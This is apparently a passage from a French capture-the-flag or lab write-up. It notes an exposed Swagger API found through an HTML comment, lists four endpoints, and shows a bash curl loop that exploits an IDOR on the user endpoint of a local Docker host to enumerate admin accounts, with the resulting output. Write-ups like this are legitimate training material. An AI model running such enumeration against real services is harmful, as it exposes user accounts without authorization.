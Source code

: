 ```html
<!-- 
Note for admins : 
For the sake of security, remove the bloody swagger UI from the production build.
-->
```

On se doute qu'il existe une **API** Swagger, souvent reliée à `/api/v1/swagger.json`, ce qui est le cas ici:

![swagger](./swagger.png)

L'API Restful comporte 4 endpoints:

- `/api/v1/register/` qui est désactivé

- `/api/v1/login/`, nécessite un compte

- `/api/v1/reset-password/` que l'on a déjà entrevu, mais nécessite un compte

- `/api/v1/user/{user_id}` que l'on peut exploiter

Énumérons ainsi les utilisateurs disponibles grâce à l'**IDOR** fournie par ce dernier endpoint:

```bash
for i in {1..100}; do echo $(curl -s -X 'GET'   'http://172.17.0.2:8080/api/v1/user/'$i   -H 'accept: application/json') ; done | grep true
{"admin":true,"id":9,"username":"isabel_castillo57"}
{"admin":true,"id":24,"username":"william_glover68"}
{"admin":true,"id":31,"username":"kimberly_jennings64"}
```
